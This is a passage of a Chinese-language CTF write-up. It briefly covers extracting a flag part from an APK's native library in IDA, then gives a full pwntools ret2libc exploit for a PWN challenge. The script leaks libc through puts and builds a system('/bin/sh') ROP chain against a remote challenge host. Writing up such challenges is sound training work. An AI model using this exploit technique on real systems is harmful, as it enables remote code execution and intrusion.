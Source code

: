 #### part5
将apk解压，找到lib中的so文件（x86,x86-64皆可)
![[Pasted image 20240929131124.png]]
在ida中打开，即可找到part5
![[Pasted image 20240929131210.png]]
#### 拼凑
拼凑五个part即可获取flag
![[Pasted image 20240929131254.png]]
# Week 2
## PWN
### ez_game
这周最简单的一道题，一道简单的ret2libc
![[Pasted image 20241005215022.png]]
![[Pasted image 20241005215127.png]]
![[Pasted image 20241005215110.png]]
构造exp:
```python
from pwn import *
import pwnlib.gdb

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
    p = process('./attachment')
    pwnlib.gdb.attach(p, 'b *main')
else:
    p = remote('101.200.139.65', 30780)

elf = ELF('./attachment')
lib = ELF('./libc-2.31.so')

ret = 0x400509
rdi = 0x400783
rsp = 0x40077d

put_got = elf.got['puts']
put_plt = elf.plt['puts']
main = elf.symbols['func']

p.recvuntil(b"!!!!\n")

payload = b'A' * (0x50) + p64(ret) + p64(rdi) + p64(put_got) + p64(put_plt) + p64(main)
p.sendline(payload)

p.recvuntil(b'again!!\n')

addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(addr))

libc_base = addr - lib.sym['puts']
system = libc_base + lib.sym['system']
binsh = libc_base + next(lib.search('/bin/sh'))

p.recvuntil(b"!!!!\n")

payload = b'A' * (0x50 + 8) + p64(ret) + p64(rdi) + p64(binsh) + p64(system)
```